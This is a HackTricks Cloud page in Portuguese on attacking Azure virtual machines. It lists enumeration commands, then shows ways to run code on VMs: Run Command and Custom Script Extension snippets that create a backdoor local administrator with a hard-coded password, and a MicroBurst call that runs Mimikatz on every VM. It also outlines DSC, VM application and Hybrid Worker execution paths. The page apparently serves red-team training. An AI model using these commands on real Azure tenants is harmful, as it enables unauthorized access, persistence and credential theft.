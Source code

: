 # Az - Máquinas Virtuais & Rede

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Informações básicas

[Dos documentos:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) As máquinas virtuais do Azure são um dos vários tipos de [recursos de computação escaláveis sob demanda](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) que o Azure oferece. Normalmente, você escolhe uma máquina virtual quando precisa de mais controle sobre o ambiente de computação do que as outras opções oferecem. Este artigo fornece informações sobre o que você deve considerar antes de criar uma máquina virtual, como criá-la e como gerenciá-la.

## Informações sobre a Rede do Azure

As redes do Azure contêm **diferentes entidades e maneiras de configurá-las.** Você pode encontrar uma breve **descrição,** **exemplos** e comandos de **enumeração** das diferentes entidades de rede do Azure em:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** oferece uma solução segura e totalmente gerenciada de acesso RDP (Remote Desktop Protocol) e SSH (Secure Shell) via SSL através do portal do Azure. Está integrado dentro de uma Rede Virtual do Azure, permitindo conectividade RDP e SSH para VMs usando IPs privados, evitando a necessidade de IPs públicos. Isso o torna uma alternativa mais segura e conveniente em relação aos métodos tradicionais que envolvem atribuições de IPs públicos e configurações de regras NSG para acesso a VMs. Desenvolvedores e pessoal de TI podem acessar VMs de forma segura a partir do portal do Azure usando seus navegadores da web, simplificando o processo para ambientes de desenvolvimento e teste.

Para listar todos os Hosts do Azure Bastion em sua assinatura, você pode usar o seguinte comando:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Enumeração de VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Executar comandos em uma VM**

### **Login AAD na VM**

É possível permitir o acesso a usuários autenticados via AzureAD. Por exemplo, ao tentar acessar uma **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (é importante **usar o email** com o azurecorp usado ao tentar fazer login) você pode receber um erro como:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Basta **seguir essas instruções** acessando [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) e indicando o código, use o e-mail e a senha como credenciais e você poderá se conectar via SSH (se esse usuário tiver permissões suficientes para isso: `Virtual Machine Administrator Login` ou `Virtual Machine User Login` role).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Executar Extensão de Script Personalizado**

As extensões de máquinas virtuais (VM) do Azure são **pequenos aplicativos** que fornecem configuração e automação **pós-implantação** em **VMs do Azure**. Por exemplo, se uma máquina virtual requer instalação de software, proteção antivírus ou a capacidade de executar um script dentro dela, você pode usar uma extensão de VM.

Portanto, se você tiver acesso para escrevê-lo, pode executar código arbitrário:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) é uma ferramenta PowerShell semelhante ao Ansible, usada para configurar um host através de código. O DSC integra-se ao Azure, permitindo o upload de arquivos de configuração específicos. Esses arquivos devem seguir uma sintaxe rigorosa. Notavelmente, a extensão DSC no Azure pode executar comandos de arquivos que atendem a certos critérios de formatação, mesmo que a sintaxe não esteja correta para os padrões do DSC, como mostrado na figura fornecida.

A execução desses comandos é facilitada pela função [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) no Az PowerShell. Os requisitos incluem um arquivo **.PS1** com uma função definida e o arquivo deve ser compactado em um arquivo **.zip**. Mesmo que a sintaxe possa não ser precisa para o DSC, o código ainda será executado. No entanto, a extensão marcará o status de execução como "falha", e nenhuma saída do comando será visível devido ao status ser sobrescrito pela mensagem de falha.

### VM Application Definitions

As Definições de Aplicativos de VM permitem a implantação repetível de aplicativos versionados em uma VM do Azure. Este recurso suporta a implantação e atualização de aplicativos em VMs. Para configurar isso, várias etapas são necessárias, envolvendo comandos como **`New-AzGalleryApplication`** e **`New-AzGalleryApplicationVersion`** no Az PowerShell.

A execução de aplicativos ou comandos através deste método envolve a **"VMAppExtension"**, que é instalada automaticamente quando um aplicativo é aplicado a uma VM. A extensão recupera o arquivo do URI especificado e o nomeia exatamente como o aplicativo, sem uma extensão. Para executar o arquivo corretamente, o campo "ManageActions" na chamada da API REST deve ser configurado para renomear o arquivo com a extensão apropriada. A configuração deste método, uma vez concluída, se parecerá com a estrutura mostrada na figura fornecida.

No entanto, esse método de execução é relativamente lento, levando cerca de 3-4 minutos para executar um aplicativo ou comando. Os arquivos relacionados a esse processo são armazenados em diretórios específicos (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` para a cópia do aplicativo e `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` para o status de execução).

Ambas as técnicas fornecem maneiras únicas de executar comandos e implantar aplicativos em ambientes Azure, cada uma com seu próprio conjunto de requisitos, etapas e considerações.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) são um recurso no Azure que permite que Runbooks, configurados em uma Conta de Automação, sejam executados em uma Máquina Virtual (VM) do Azure que faz parte do HWG designado. Essa execução é facilitada por uma extensão instalada na VM, que implanta o código do Runbook na VM. Um aspecto significativo desse processo é que as credenciais reais não são um fator na execução, pois o código é executado com privilégios elevados, especificamente como **SYSTEM** ou root, como ilustrado na figura fornecida.

Um detalhe crucial para aqueles que utilizam VMs com Windows 10 é a necessidade de especificar a versão do PowerShell para o Runbook. Deve ser configurado para ser executado como PowerShell Versão 5.1 em vez de 7.1. Esse requisito decorre do fato de que o PowerShell 7.1 não está instalado por padrão nessas VMs, levando a uma falha na execução do script se a versão 7.1 for especificada.

Esse recurso do Azure oferece um método robusto para automatizar e gerenciar tarefas em ambientes híbridos, permitindo a gestão e execução centralizadas de tarefas em VMs do Azure.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
